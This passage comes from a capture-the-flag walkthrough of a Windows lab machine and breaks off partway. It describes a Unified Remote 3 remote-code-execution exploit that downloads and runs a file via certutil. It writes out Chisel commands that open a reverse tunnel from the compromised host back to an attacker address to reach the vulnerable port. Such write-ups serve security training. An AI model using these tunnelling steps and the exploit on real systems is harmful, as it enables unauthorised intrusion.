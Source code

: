         Directory: C:\Program Files (x86)\Unified Remote 3

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         6/12/2021  12:21 AM                Manager
    d-----         6/12/2021  12:21 AM                uvhid
    -a----         5/29/2017   4:55 AM        1846272 libcryptoMD.dll
    -a----         5/29/2017   4:55 AM         382976 libsslMD.dll
    -a----         11/3/2020   4:50 PM        3243784 RemoteServerWin.exe
    -a----         6/12/2021  12:21 AM         183608 unins000.dat
    -a----         6/12/2021  12:19 AM        2580744 unins000.exe
    -a----         6/12/2021  12:21 AM          23277 unins000.msg
    -a----        10/10/2016   6:27 AM         556544 wcl.dll
    -a----        10/10/2016   5:34 AM         188416 wcl2wbt.dll   



### Unified Remote 3 RCE

#### Background

There's a [remote code execution
exploit](https://www.exploit-db.com/exploits/49587) in Unified Remote
3.9.0.2463. Reading the script from ExploitDB, it looks like it connects
to TCP 9512, and the uses takes advantage of the application's ability
to run generic windows programs. The script author seems to have
understood the binary protocol the server uses to tell the target
computer to download a file of HTTP using `certutil` and then run that
file.

#### Tunnel

To access TCP 9512, I'll need to tunnel through my existing shell. For
that, I'll use [Chisel](https://github.com/jpillora/chisel) ([my
tutorial here](/tunneling-with-chisel-and-ssf-update.md)).
I'll upload the Windows binary using `curl`, and then start the server:



    oxdf@hacky$ /opt/chisel/chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2022/01/28 16:34:12 server: Reverse tunnelling enabled
    2022/01/28 16:34:12 server: Fingerprint 81DUoPbmDjczPL9ZhJsU325vRwcHTwvWav70WALUU0g=
    2022/01/28 16:34:12 server: Listening on http://0.0.0.0:8000



Now I'll connect to that port with the client:



    PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:9512:127.0.0.1:9512
    2022/01/28 13:36:41 client: Connecting to ws://10.10.14.6:8000
    2022/01/28 13:36:42 client: Connected (Latency 74.2142ms)



At the server, it shows the tunnel:

